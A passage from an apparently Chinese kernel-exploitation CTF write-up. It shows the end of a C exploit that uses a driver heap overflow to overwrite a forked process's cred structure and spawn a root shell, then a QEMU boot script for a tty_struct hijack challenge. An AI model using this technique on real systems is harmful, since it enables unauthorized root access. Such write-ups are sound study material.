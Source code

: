 ```
        ioctl(bof_fd,5,&p);// malloc
}
    p.idx =5;
    ioctl(bof_fd,7,&p);// free

// 调用 fork 分配一个 cred结构体
int pid = fork();
if(pid <0){
puts("[-] fork error");
exit(-1);
}

// 此时 ptr[4] 和 cred相邻
// 溢出 修改 cred 实现提权
    p.idx =4, p.len =0xc0+0x30;
memset(p.buf,0, p.len);
    ioctl(bof_fd,8,&p);
if(!pid){
//一直到egid及其之前的都变为了0，这个时候就已经会被认为是root了
size_t uid = getuid();
printf("[*] uid: %zx\n", uid);
if(!uid){
puts("[+] root success");
// 权限修改完毕，启动一个shell，就是root的shell了
            system("/bin/sh");
}else{
puts("[-] root fail");
}
}else{
        wait(0);
}
return0;
}
```  
# tty_struct 劫持  
  
**boot.sh**  
  
这道题gadget较少，我们就关了smep保护。  
```
#!/bin/bash

qemu-system-x86_64 \
-initrd rootfs.img \
-kernel bzImage \
-m 512M \
-nographic \
-append 'console=ttyS0 root=/dev/ram oops=panic panic=1 quiet kaslr' \
-monitor /dev/null \
-s \
-cpu kvm64 \
-smp cores=1,threads=1 \
--nographic
```  
## 利用思路  
  